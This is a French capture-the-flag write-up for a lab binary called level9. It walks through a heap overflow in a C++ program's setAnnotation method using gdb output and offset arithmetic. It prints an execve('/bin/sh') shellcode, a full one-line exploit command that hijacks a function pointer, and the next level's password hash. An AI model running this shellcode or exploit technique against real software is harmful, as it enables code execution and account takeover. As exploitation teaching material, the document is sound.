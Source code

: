 Dans ce niveau l'excutable appelle des fonctions et des classes en c++ notamment avec `new()`

On va voir ou est stoke l'arg avec un break apres `N::setAnnotation(char*)` donc a `0x0804867c`
```sh
0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret
```
En essayant avec des "AAAAAAAA" on voit ou ils sont stoke :
```sh
Breakpoint 1, 0x0804867c in main ()
(gdb) x/30wx $eax
0x804a00c:	0x41414141	0x41414141	0x00000000	0x00000000
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
0x804a07c:	0x00000000	0x00000000
```

On voit donc qu'on va overflow au bout de 108 char

On va chercher a injecter un shellcode a la premiere adresse ou c'est stocke `0x804a00c + 4 = 134520848 = 0x0804A010`

Le shellcode : `execve("/bin/sh")` = `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Et avec Avec l'overflow on va placer l'adresse du debut d'$eax : `0x804a00c`

On va donc passer le script suivant ("A" * 76 car : `112(total $eax) - 4(premiere adresse) - 28(shellcode) - 4(deuxieme adresse) = 76`) :

`./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')`

Quand le programme s'execute un shell s'ouvre on peut donc utiliser `cat /home/user/bonus0/.pass` et le flag sort :

`f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`